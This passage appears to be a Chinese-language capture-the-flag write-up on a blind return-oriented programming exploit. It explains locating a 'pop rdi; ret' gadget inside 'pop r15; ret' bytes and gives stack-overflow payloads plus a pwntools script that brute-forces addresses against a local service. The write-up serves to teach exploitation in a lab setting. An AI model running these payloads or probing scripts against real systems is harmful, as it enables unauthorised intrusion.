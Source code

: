 可能会得到多个gadget，找个好用的就可以了。

<br>

**找useful gadget**

由于这个题目实质是调用puts函数，不是write函数，所以我们并不需要三个gadget，只需要1个 pop rdi;ret就足够了

%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。

那么如何得到一个 pop rdi;ret呢？我们设想，在64位的ELF中，通常存在一个pop r15;ret 对应的字节码为41 5f c3。后两字节码5f c3对应的汇编为pop rdi;ret。

如果有存在一个地址 addr，满足



```
Payload1 = 'a'*72 + l64(addr-1)+l64(0)+l64(ret) 
Payload2 = 'a'*72 + l64(addr)+l64(0)+l64(ret) 
Payload3 = 'a'*72 + l64(addr+1) +l64(ret)
```

ret是一个返回函数，且有输出信息。那么我们就可以得到addr，即pop rdi;ret

在64位ELF中，通常存在一个pop r15；ret，对应的字节码为41 5f c3。后两字节码5f c3对应的汇编为pop rdi;ret。

如果addr就是指向的5f，那么addr-1就是指向41，Payload1 = 'a'72 + l64(addr-1)+l64(0)+l64(0x400711) ，41和5f组成一个指令，pop r15出来，后面接返回地址0x400711，栈平衡满足要求。Payload2 = 'a'72 + l64(addr)+l64(0)+l64(0x400711) ，pop rdi出来，也能正常返回。Payload3 = 'a'*72 + l64(addr+1) +l64(0x400711) ，addr+1指向c3即ret，直接返回后返回0x400711

于是，我先去寻找这么一个ret，返回有输出信息。



```
def ret_addr(addr):
    io = remote("127.0.0.1",10002)
    payload = 'A'*72 +p64(addr) + p64(stop_gadget)
    io.recvuntil("WelCome my friend,Do you know password?")
    io.sendline(payload)
    try:
        io.recvline()
        if (io.recv()!=None):
            print io.recv()
        # if "No password, no game" in io.recv():
            io.info("find gadgets at 0x%x" % addr)
            log_in_file(addr)
            print "[*] the ret addr at 0x%x" % (addr)
            io.close()
    except EOFError as e:
        io.close()
        log.info("the connection is close at 0x%x" %addr)
start = 0x400000
count = 0
while True:
    start += 1
    ret_addr(start)
    count += 1
    if count &gt;0x1000:
        break
```
